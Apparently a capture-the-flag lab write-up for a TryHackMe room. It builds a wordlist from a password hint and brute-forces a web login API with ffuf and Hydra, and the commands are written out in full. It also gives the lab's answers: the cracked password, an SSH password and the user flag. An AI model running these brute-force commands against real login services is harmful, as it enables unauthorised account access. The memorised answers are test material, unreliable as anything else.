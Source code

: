 **Next Step**

Now that we have a username, we need a password. Because the passwords are hashed with bcrypt and take a noticeable time to verify, bruteforcing with a large wordlist like rockyou is not feasible.  
Fortunately, this webapp has password hints!

With the username that we found in the last step, we can retrieve the password hint. From this password hint, we can create a wordlist and (more) efficiently bruteforce the user's password.

**Create your wordlist**

The password hint is "my favourite colour and my favourite number", so we can get a wordlist of colours and a wordlist of digits and combine them using Hashcat Util's Combinator which will give us every combination of the two wordlists. Using this wordlist, we can then use Hydra to attack the login API route and find the password for the user. Download the attached wordlist files, look at them then combine them using hashcat-util's combinator.  
Hashcat utils can be downloaded from: [https://github.com/hashcat/hashcat-utils/releases](https://github.com/hashcat/hashcat-utils/releases)[](https://github.com/hashcat/hashcat-utils/releases)  
Either add these to your PATH, or run them from the folder.  
We want to use the Combinator.bin binary, with colors.txt and numbers.txt as the input. The command for this is (assuming you're in the directory with the binaries and have copiesd the txt files into that directory):

./combinator.bin colors.txt numbers.txt > wordlist.txt

This will then give you a wordlist to use for Hydra.  

Create custom wordlist (combine 2 wordlists) using `hashcat scripts`. We can use `bin/combinator.bin` to combinate our colors.txt and numbers.txt:

```
./combinator.bin ../../wordlists/colors.txt ../../wordlists/numbers.txt > ../../wordlist.txt
```

![[Pasted image 20240228191054.png]]


  

**Attack the API**

The HTTP POST request that we captured earlier tells us enough about the API that we can use Hydra to attack it.  
The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:

- Request Body - JSON
    
    {"username":"admin","password":"admin"}
    
- Request Path -
    
    /api/user/login
    
- Error message for incorrect logins -
    
    "Invalid Username Or Password"

Try to use `ffuf` again:

```
curl -L 'http://10.10.69.80/api/user/login' -d '{"username":"asd","password":"asd"}'
```

![[Pasted image 20240228191811.png]]

Adding some headers:

```
curl 'http://10.10.69.80/api/user/login' -d '{"username":"user","password":"user"}' -H 'Content-Type: application/json' -H 'Content-Type: application/x-www-form-urlencoded'
```

![[Pasted image 20240228192503.png]]

Try to brute force the password of the known user using `ffuf`:

```
ffuf -u 'http://10.10.69.80/api/user/login' -d '{"username":"james","password":"FUZZ"}' -H 'Content-Type: application/json' -H 'Content-Type: application/x-www-form-urlencoded' -w ../../wordlist.txt
```

![[Pasted image 20240228192954.png]]
![[Pasted image 20240228193012.png]]

Every response is the same in ffuf and wfuzz (42 chars long)

Using `hydra`:

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

```
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
```


```
hydra -l james -P wordlist.txt 10.10.69.80 http-post-form '/api/user/login':'username=^USER^&password=^PASS^':'Invalid Username Or Password'
```

![[Pasted image 20240228194254.png]]


Answer the questions below

| Question                                             | Answer |
| ---------------------------------------------------- | ------ |
| Form the hydra command to attack the login API route |        |
| How many passwords were in your wordlist?            | 180    |
```
wc wordlist.txt
```

![[Pasted image 20240228194720.png]]

| Question                          | Answer |
| --------------------------------- | ------ |
| What was the user's password?     | blue7  |
| Login as the user to the platform |        |
```
ssh james@10.10.69.80
```

![[Pasted image 20240228195052.png]]


| Question                                                 | Answer     |
| -------------------------------------------------------- | ---------- |
| What's the user's SSH password?                          | dak4ddb37b |
![[Pasted image 20240228195243.png]]


| Question                                                 | Answer                                |
| -------------------------------------------------------- | ------------------------------------- |
| Log in as the user to SSH with the credentials you have. |                                       |
| What's the user flag?                                    | thm{56911bd7ba1371a3221478aa5c094d68} |
```
find / -name "user.txt" 2>/dev/null
```

![[Pasted image 20240228200643.png]]
